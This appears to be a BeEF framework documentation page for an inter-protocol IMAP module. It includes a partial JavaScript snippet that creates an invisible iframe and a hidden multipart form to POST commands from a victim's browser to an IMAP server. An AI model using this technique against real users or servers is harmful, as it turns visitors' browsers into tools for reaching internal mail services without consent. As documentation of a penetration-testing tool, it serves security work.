 ## Summary

* **Objective**: send commands to an IMAP4 server using inter-protocol communication
* **Authors**: jgaliana, wade
* **Browsers**: Firefox, Chrome, Safari, Opera

* [Code](https://github.com/beefproject/beef/tree/master/modules/ipec/inter_protocol_imap)

## Internal Working

Note: browser port banning is denying connections to default IMAP port 143.

Uses an iframe with multipart form data to send commands to IMAP server


```js

var target = "http://" + server + ":" + port + "/abc.html";
var iframe = beef.dom.createInvisibleIframe();

var form = document.createElement('form');
form.setAttribute('name', 'data');
form.setAttribute('action', target);
form.setAttribute('method', 'post');
form.setAttribute('enctype', 'multipart/form-data');

var input = document.createElement('input');
input.setAttribute('id', 'data1')
input.setAttribute('name', 'data1')
input.setAttribute('type', 'hidden');
input.setAttribute('value', commands);
form.appendChild(input);

```

## References

https://e1tips.com/2014/03/17/allow-firefox-chrome-to-access-restricted-ports/

## Feedback

Online works when the port is not blocked by the browser
